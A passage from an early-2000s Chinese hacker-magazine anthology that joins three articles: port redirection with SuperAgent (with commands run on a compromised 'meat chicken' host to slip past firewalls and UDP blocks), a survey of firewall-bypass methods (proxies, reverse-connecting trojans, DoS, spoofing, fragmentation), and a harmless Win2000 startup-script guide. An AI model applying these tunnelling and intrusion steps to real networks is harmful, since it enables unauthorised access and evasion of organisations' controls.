这里的 xxx.xxx.xxx.xxx 为被入侵主机的 IP，如图6所示。



图6

这里涉及到了三个端口，大家可以查看 SuperAgent 的帮助，来对照这些端口。

接下来讲一下整个的连接过程（为了方便讲解，我们设受被入侵的远程主机为 R，我所用的机器为 L）：

- L 机监听本地的 TCP 端口 23，R 机上监听 UDP 端口 1234，我在 L 机上 Telnet 127.0.0.1，本地的 Telnet 服务就收到了 TCP 端口 23 的请求，广义上的这个 TCP 请求封装为 UDP 的请求，发送给 R 机，R 机收到了 L 机被封装为 UDP 请求的 Telnet 请求，然后再把它恢复为原来的 Telnet 请求发给自己，就这样如此反复，便通过把原来的 TCP 端口重定向并利用 UDP 转发到被攻击主机，这样就有效地绕过了那些设定了屏蔽掉除 TCP 的 80 端口以外的所有请求的防火墙。

大家也许还不太明白其中的端口重定向的过程，以下我用一个直线流程图的形式来标明整个转发过程，希望对大家进一步的理解能有帮助（括号中标明了协议类型）：

- L 机的 23 端口（TCP）→ L 机的 5678 端口（UDP）→ R 机的 1234 端口（UDP）→ R 机的 23 端口（TCP）

通过这个大家都应该明白了吧！

OK！突破防火墙的方法差不多就讲到这里了，接下来讲一下 QQ 相关的东西。

## 三、通过 TCP SOCKET 来上 QQ

### 1. 还是使用已经讲过的 superagent 啦

很多公司都屏蔽掉了 UDP 协议，为的就是不让员工上 QQ，然而我在这里要讲述的是如何在屏蔽了 UDP 协议的情况下来上 QQ。

仍然是 SuperAgent，这里我们需要一台肉鸡，如何制作肉鸡就不用讲了。

首先得在肉鸡上装一个 SuperAgent，然后利用漏洞也好，或是其它什么也好，想办法让它运行命令：

```text
superagent -u 202.104.129.253 8000 4000 5000
```

这里的 202.104.129.253 是腾讯 QQ 服务器的地址。

然后在我的本机上运行：

```text
superagent -t xxx.xxx.xxx.xxx 5000 8000
```

在 QQ 系统设置里，把服务器地址设置为 127.0.0.1，端口不变，仍是 8000。

大家现在明白了吧，我把我的机器伪装成了腾讯的 QQ 服务器。具体的原理和突破防火墙中的 SuperAgent 的应用差不多，下面是转发过程。

- 转发过程为：本机端口 8000 → 肉鸡端口 5000 → 肉鸡端口 4000 → 腾讯 QQ 服务器端口 8000

大家参照 SuperAgent 的帮助看一下，就很容易发现，在本地机和肉鸡通信的过程中使用的是 TCP 协议，而肉鸡和腾讯的 QQ 服务器间的通信才是 UDP 协议，因此这样就突破了公司中对 UDP 协议的屏蔽。

### 2. 终极端口重定向工具：qqport

这个工具便是通过使用端口重定向来实现修改自己的 QQ 端口的。

使用方法很简单，就一个主程序，双击打开后，有详细的使用说明，按照说明去做就可以了，如图7所示。



图7

然后，利用珊瑚版的 QQ 或是 QQ 自身的 BUG 把自己添加为好友，再加上一个显示 IP 的补丁，就可以看到，自己的 QQ 端口确实变成了刚才设置的端口，如图8所示。



图8

至此，我讲述了两种端口重定向的主要应用。这只是一个小部分而已，如果大家有兴趣的话，可以继续深入研究，会发现还有很多有趣的东西。而且熟悉编程的朋友最好能自己写几个端口重定向程序，这样更加有成就感。

以上便是端口重定向的两个主要应用了。另外，在使用端口重定向时，我发现了一个问题，就是自己的本地机最好能有一个。

## 绕过防火墙限制的几种方法

Flying

防火墙是企业网络信息安全的福音，是黑客们的天敌，没有一个黑客不曾在防火墙面前栽过跟斗的。现在人们的安全意识是越来越强了，防火墙产品一般都被大中小各企业以及个人用户计算机所采用，以保证网络信息的安全，你要是用一般的攻击手段去对付一个装有防火墙的网络，给你带来的结果将会令你失去自尊。

下面笔者便来谈谈如何绕过防火墙的监视和检测，以便获得更加自由的活动空间，我想这也是最令小黑客们心动的东西了。

## 一、防火墙简述

### 1. 防火墙的基本概念

在学习穿透防火墙的技术前，我们还是先来了解一下有关防火墙的基础知识。所谓“防火墙”，实质上是指一种能够将内部网和外部公众访问网分开的方法，它只允许我们同意的人和数据进入内网，将不允许进入的数据（防火墙视为非法数据）拒之于门外。凡是能起到这样的作用的，不管是硬件还是软件，都可以称为防火墙。防火墙目前主要分为包过滤、状态检测的包过滤、应用层代理防火墙。

### 2. 防火墙访问控制的基本原理

上面所列举的三种防火墙的基本实现都形态类似。防火墙位于网络中的位置大体上是介乎于连接内部网络和公共网络（如 Internet）的两块网卡中间，所有在这两个网络之间流动的数据都必须经过防火墙的审核，如图1所示：



正如图1所示，防火墙一般有两块以上的网卡，一块连到外部（router），另一块是连到内部网络。当打开主机网络转发功能时，两块网卡间的网络通讯能直接通过。防火墙就好比插在网卡之间，对所有的网络通讯进行严格的监视和控制，实施对网络数据的保护。

防火墙的核心便是访问控制，防火墙主要是通过一个“访问控制表”来判断数据的合法性，其形式一般是一连串的如下规则：

- `accept from + 源地址、端口 to + 目的地址、端口 + 采取的动作（这是同意进出的数据，控制点主要是端口、源地址、目的地址等）。`
- `deny ............（省略号表示规则，表示对不合法的数据作何种处理，这个可以由用户自定义，如禁止别人向 7626 端口提出连接请求等）`
- `nat ............（这个是地址转换）`

防火墙的工作过程是一个匹配的过程，它在网络层（当然也包括链路层了）接收到网络数据包之后，就开始搜索上面建立的“访问控制表”，从上面的表中一条规则一条规则地进行匹配，符合规则的数据包就执行预先安排的动作，如允许通过或者丢弃等。

## 二、防火墙的优点和缺点

知己知彼才能百战百胜，我们理解了防火墙的基本概念及原理之后，还要了解一下防火墙的优缺点。防火墙的优点有：

- 1. 防火墙能够强化安全策略  
  网络中的人林林总总，不可避免会存在着一些存心破坏网络秩序的人（比如 Cracker），这些人品德不良或者以破坏 Internet 的规则为乐。防火墙正是这种维护网络秩序的“交通警察”，它可以强化、执行站点的安全策略，仅仅允许循规蹈矩的行为和数据通过，有了它就等于找到了一个得力的保镖。

- 2. 防火墙能有效记录 Internet 上的一举一动  
  因为所有的信息数据、行为和人都必须通过防火墙与 Internet 进行交流，防火墙可以在后台将他们的举动一一记录下来，谁遵守规则、谁破坏了网络，都可以在记录里找得到踪影。但是有一个很大的遗憾就是这些记录的范围不广，不能记录整个 Internet 的行动（那绝对是不可能的），防火墙只能在被保护的内部网络和外部网络之间进行记录。

- 3. 防火墙限制暴露用户点  
  防火墙可以用来隔开不同的网段，这样可以防止一个网段出了问题而影响整个网络，这是防火墙的一大功能。

- 4. 防火墙是一个安全策略的检查站  
  从上面的图1可以看到，所有进入到内部网络的数据都得通过防火墙。防火墙自然就成为了一个安全问题的检查站了，不合法的数据将被防火墙拒于门外。

防火墙的缺点有：

- 1. 不能防范恶意的知情者  
  防火墙可以禁止系统用户经过网络连接发送专有的信息，但用户完全可以将数据复制到磁盘，放在公文包里带出去。如果入侵者在防火墙的内部，防火墙就形同虚设了。内部用户可以修改程序而不接近防火墙地为所欲为。正所谓“家贼难防”就是这个道理。

因此笔者认为，防火墙还应加强对内部网络的监控，使内部网络的用户的一举一动（哪怕是拷贝文件）都记录在案。但是这又似乎侵犯了个人的隐私，难道一个女孩子给男友写的情书都要记录下来吗？不应该啊！但如果这个女孩子趁着给男友写情书的机会将公司的商业秘密夹在情书里，她的男友正是一名商业间谍，女孩子还将信息拷贝到磁盘，大大方方地带到外边去呢？那应不应该记录她写的情书？应该啊！那到底是应该还是不应该？大概防火墙也有说不出的“苦衷”吧！

- 2. 防火墙不能防范不通过它的连接  
  这是人人都知道的，如果可以防范不通过它的连接，那整个 Internet 只要有一家企业装上防火墙就行了，那防火墙的商家不是要倒闭了吗？所以，防火墙这种“不多管闲事”的作风有好也有不好，笔者在这里将其列为缺点似乎有点过分。

- 3. 防火墙不能防范全部的威胁  
  防火墙只能防范已知的威胁，防范永远是落后于攻击的，对于未知的攻击，防火墙只能“视而不见”，但是现在的防火墙似乎在这方面有了一点点的改进了。

- 4. 防火墙不能防范病毒  
  要么就装上专业的病毒防火墙，不然一般的防火墙的防毒功能是很脆弱的，而病毒在传染的时候是合法的，比如一封电子邮件，如果是从防火墙允许通过的站点发过来的，而当时又不发作，防火墙就会敞开大门让它进来。

上面笔者参考了有关资料，总结了防火墙的优点和缺陷，希望对大家学习绕过防火墙的技术有点帮助。

“兵来将挡，水来土掩”，要绕过或攻击防火墙，就要根据不同的防火墙实施不同的策略。因为不同的防火墙，其判断攻击行为的方式是不一样的，下面便谈谈这方面的知识。

## 三、绕过防火墙的内部秘密与绕过策略

我们将绕过防火墙的方法分为两大类：一种是绕过防火墙的限制，从内部网络连接到外部网络；另一种是绕过防火墙的阻拦，从外部深入到内部网络实行攻击。

### 1、绕过防火墙的限制，随意自由访问外部网络

我们首先来见识一下由内至外的绕过策略。要想绕过防火墙去攻击内部网络，最基本的便是攻破自己网络的防火墙。比如你处在一个内网中，网络架设有防火墙，禁止这又禁止那的，你如何才能突破重重难关，达到逍遥自在的境界呢？笔者在这方面曾经有过研究，现介绍如下：

- （1）使用代理服务器，随意访问站点

具体步骤如下：打开 IE，选择“工具”菜单，再选择“Internet 选项”，在“Internet 选项”对话框中，点击“连接”页，网吧用户单击“局域网设置”，拨号上网的用户点击上面的“我的连接”后，点击右边的设置，在弹出的对话框中，选择“使用代理服务器”，在地址中输入代理服务器的地址，端口中输入端口号（如 8080），点击确定即可。

另外，也可以设置 SOCKS 代理，设置 SOCKS 代理推荐使用 SocksCap32，NEC 公司出品的一个很实用的 Socks 代理设置软件，支持 Socks4、Socks5。通过设置 Socks 代理，可以访问国外的任何站点，也可以让局域网用户绕过防火墙，访问你所需的站点。有关代理服务器的 IP 地址，由于篇幅有限，不能一一列举，网络上有的是，请自己搜索。

- （2）用网页转向功能

笔者发现，有些网站提供网页转向的功能，我们完全可以利用这个服务为我们访问指定的网页，从而绕过防火墙。它的访问原理是这样的：

假如是 A 机器，你的防火墙不允许你去看 C 这个网站，但有一个叫 B 的网站可以访问到 C 网站，而这个 B 网站提供网页转向功能。那么你可以先去 B 网站，然后在 B 网站上指定的位置输入 C 网站的网址，这样，A 点（你自己）就可以访问到 C 网站了，从而绕过了防火墙的阻拦。为什么呢？因为防火墙根据“规则表”定义的过滤规则，只能拦住到 C 网站的请求，但对“B 网站”的请求认为是合法的，A 需要的数据虽然是 C 网站上的，但是 B 网站帮你取来传的，因此巧妙地绕过了防火墙的限制，原理如图2所示。



以前笔者发现有几个提供网页转向功能的站点，现在发觉都不能用了，请大家自己查找。

- （3）使用 leapfrog 软件

记得有一个叫 leapfrog 的工具软件，这是一个老东西了，利用该程序在本地将一个端口映射到一个代理上去，就可以绕过防火墙的限制。因为很多防火墙只限制了某些端口可以使用，例如防火墙只允许 80 端口，利用别的程序将程序本身绑在 80 端口会产生错误，因为服务若打开了 80 端口，一般是有 WWW 服务的，再将程序绑入 80 端口就不行了。但是使用 leapfrog 软件就没有这个问题，实际上 leapfrog 只是一个端口重定向的软件而已。举个例子，如果防火墙不允许 23（TELNET）端口，但可以 HTTP（80），那你可以设定 leapfrog 监听 80 端口并发到 23 端口，而后 TELNET 端口 80，于是你就可以连接上别的机器了。

```text
该软件的下载地址是：http://go4.163.com/weed/yct/hacker/leap_frog_win_release.zip
```

有关在内网突破防火墙限制的方法就说到此，下面来看看黑客们是如何从网络外部绕过防火墙进入内部网络实施攻击行为的。

### 2、绕过防火墙的阻挡，深入内部网络实施攻击

- （1）反弹端口型木马入侵法

利用反弹端口型木马对包过滤防火墙是最有效的攻击方法，也是菜鸟们最喜欢耍的一种把戏。具有代表性的木马有“网络神偷”，蔬菜工作室刚推出“网络神偷”的时候，金山的防火墙都无法拦截，金山还被黑客潜入内部服务器窃取了重要的资料。实际上是由于防火墙过于防范外部接入的数据，而疏忽了内部发出的数据。

攻击者安装在内部网络的反弹木马会定时连接外部控制端的主机，由于连接是从内部发起的，任何防火墙都认为是一个合法的连接，因此防火墙不能区分是“木马的连接”还是“合法的连接”。

虽然这种攻击的局限是必须安装反弹型木马，但可以利用 IE 的漏洞和电子邮件相结合，骗杀起来更是小菜一碟了。而且，项目“网络神偷”利用了“HTTP 隧道技术”，使得你只要浏览了网页，“神偷”就能偷到你的数据。有关“网络神偷”的使用已经在《黑客X档案》第三期发表，我不打算重写一遍了。

- （2）通过拒绝服务攻击使防火墙丧失过滤功能

严格来说，这不是什么技巧，只是以拒绝服务的攻击方式攻击防火墙，使它忙于处理，而忘记了它自己的过滤功能，趁此机会绕过它。这只能对付一些简单的包过滤防火墙，因为此类防火墙不能跟踪 TCP 的状态，很容易受到拒绝服务攻击，但成功率不高，只能作为一种策略。

- （3）修改数据包的源地址、目的地址和端口

便是数据包的源地址、目的地址和端口。如果能够修改数据包的源地址、目的地址和端口，模仿一些合法的数据包发送，那就可以骗过防火墙的检测。如，有篇文章介绍到，可以从外部将数据报源地址改为内部网络地址，防火墙看到是合法地址就放行了。可行是可行的，但是如果防火墙结合接口、地址来匹配，那这种攻击就不能成功了。

- （4）采用分片技术跳过防火墙的检测

这种方法实现起来难度高，只能讲讲原理：将 IP 的分片包中所有的分片包用一个分片偏移字段标示分片包的顺序。但是，只有第一个分片包含有 TCP 端口号的信息。当 IP 分片包通过分组过滤防火墙时，防火墙只根据第一个分片包的 TCP 信息判断是否允许通过，而其它后续的分片不作防火墙检测，直接让它们通过。

实现方法：先发送第一个合法的 IP 分片包，骗过防火墙的检测，接着封装了恶意数据的后续分片包就可以直接穿透防火墙，直接到达内部网络主机，从而威胁网络和主机的安全。

- （5）利用代理服务器软件的漏洞绕过防火墙

要实施此种攻击必须掌握一定的漏洞知识和利用方法。代理是运行在应用层的防火墙，它实质是启动两个连接，一个是客户端到代理，另一个是代理到目的服务器。黑客利用软件漏洞可以深入到内部网络实行攻击，具体方法由于篇幅有限不作介绍。

防火墙技术经历了很长一段时期的发展，几乎是与路由器同时出现的，路由器发展了多久，防火墙就发展了多久。现在已经到了第五代防火墙了，其防范技术日趋精湛。虽然目前的防火墙还存在着许多的不足，如过于防范外网进内网的数据而忽视内网进外部数据的合法性，造成“家贼难防”的局面等，但是彻底地绕过防火墙而逍遥自在并非大家想像中的那么简单，更不是一篇几千字节的文章所能描述得了的。有位黑客前辈说得好：“能够绕过防火墙的入侵者是具备了真正意义的黑客本领了，但 95% 的入侵者无法突破防火墙”，其难度可想而知了。

笔者只能在此谈谈个人的思路和看法，以便抛砖引玉。所以请大家不要把本文作为一篇入侵教程来看待，更多的技巧还需要大家去实践、去发掘其中的奥妙。大家若有更好的思路与方法，请继续在《黑客X档案》上发表，以便读者开阔眼界。

> **参考资料**
>
> 《防守反击——黑客攻击手段分析与防范》，人民邮电出版社，2001年8月第1版。
>
> 《如何突破各种防火墙的防护》，作者：SYSOP


## Win2000 计算机启动／关机脚本

鬼手

## 一、简介

Win2000 计算机启动／关机脚本是 Win2000 的一个新特点，它的功能类似于 Win9X 和 DOS 中的自动执行批处理文件 autoexec.bat，允许安装有 Win2000 的计算机在启动或关机时运行用户指定的文件。

与 Win2000 用户登录／注销脚本相比，它们之间的主要区别是计算机启动／关机脚本在计算机启动和关机时运行，脚本程序只运行一次，通常在启动脚本运行完毕后才出现邀请用户登录的对话框；用户登录／注销脚本在用户登录系统或从系统注销时运行，脚本运行次数由用户登录／注销的次数决定，用户每登录／注销系统一次，脚本程序就运行一次。

## 二、指派

指派计算机启动／关机脚本需要通过组策略 MMC（管理控制台）管理单元进行，具体操作如下：

- 1. 单击“开始”菜单→“运行”，在打开框内输入“MMC”，打开管理控制台（Microsoft Management Console，MMC）。如图1所示。



图1

- 2. 单击“控制台”菜单→“添加／删除管理单元...”，在弹出“添加／删除管理单元”对话框内单击“添加”按钮，添加独立管理单元。

- 3. 在“添加独立管理单元”对话框的“可用的独立管理单元”列表内选择“组策略”，按下面的“添加”按钮。如图2所示。



图2

- 4. 当系统询问使用哪一个组策略对象时，如果你要指派面向本地计算机、只在本地计算机执行的启动／关机脚本，请选择缺省的“本地计算机”组策略对象，如图3所示。如果你要指派面向 Win2000 域、在域内所有计算机上执行的启动／关机脚本，那就点击“选择组策略对象”对话框中的“浏览...”按钮，在“浏览组策略”对话框选定能应用到整个域中的组策略对象。这里以“Default Domain Policy”对象为例，它是 Win2000 域缺省的域策略对象。

# 黑客研究院

## 黑客文档案2002-2003年合订本

5、完成后依次关闭各对话框回到管理控制台，现在管理控制台上就有了一个相应的组策略对象树，如图4所示。

6、管理控制台左侧的控制台树窗格中，依次展开组策略对象→“计算机配置”→“Windows设置”→“脚本（启动／关机）”节点，双击右侧详细资料窗格中的“启动”或“关机”项目，就可以设置计算机启动或关机时使用的脚本了，如图5所示。

7、（因Win2000计算机启动和关机脚本的设置方法相同，下面我们以启动脚本的设置方法为例加以说明）双击右侧详细资料窗格中的“启动”项目，在跳出的“启动属性”对话框中点击“添加”按钮，添加新的计算机启动脚本。

8、一个启动脚本项目包括两方面的内容：脚本名和脚本参数。如果脚本名不包含文件路径名，比如图6中的脚本文件名只是“scripta.vbs”，系统会到缺省的计算机启动脚本路径下寻找这个脚本文件。开机脚本的参数是可选的，可填可不填，看实际情况而定。图6中的开机脚本使用了运行参数“start”。

9、本地计算机脚本的缺省路径通常是“%Systemroot%\system32\GroupPolicy\Machine\Scripts”，如“C:\winnt\system32\GroupPolicy\Machine\Scripts”；应用到域的计算机脚本的缺省路径通常是“\\<DC name>\sysvol\<domain name>\Policies\<GUID>\Machine\Scripts”，如“\\MyDC1\sysvol\Mydom.com\Policies\{31B2F340-016D-11D2-832F-00C04FB7B3F9}\Machine\Scripts”。启动脚本存放在“Startup”子文件夹中，关机脚本存放在“Shutdown”子文件夹中。

10、我们可以根据需要重复点击“启动属性”对话框中的“添加”按钮，为计算机添加多个启动脚本，如图6所示。

11、设置完毕，保存后退出组策略MMC管理单元。组策略刷新后，这些脚本将在下一次计算机启动和关机时起作用。

12、我们对计算机启动／关机脚本的设置数据按Win2000保存在一个名为scripts.ini的隐藏配置文件中（只有当配置了脚本时这个文件才会出现）。这个文件位于“C:\WINNT\system32\GroupPolicy\Machine\Scripts”目录下，可以使用任一款文件编辑软件如记事本进行编辑。

scripts.ini文件内容通常包含两个数据段：[Startup]和[Shutdown]。[Startup]数据段下是启动脚本配置；[Shutdown]数据段下是关机脚本配置。每个脚本项目被分成脚本名和脚本参数两部分存储，脚本名保存在XCmdLine关键字下，参数保存在XParameters关键字下，这里的X表示从0开始的脚本序号，以区别多个脚本和标志各脚本的运行顺序。下面是一个简单的scripts.ini文件的例子：

```ini
[Startup]
0CmdLine=d:\start\ss.bat
0Parameters=
1CmdLine=scripta.vbs
1Parameters=start
[Shutdown]
0CmdLine=shut.vbs
0Parameters=
```

从例子中我们可以看出，共设置了两个计算机启动脚本：ss.bat和scripta.vbs。

ss.bat位于d:\start目录下，没有使用参数；scripta.vbs位于缺省的启动脚本目录C:\WINNT\system32\GroupPolicy\Machine\Scripts\Startup下。

## 无盘网吧安全隐患分析

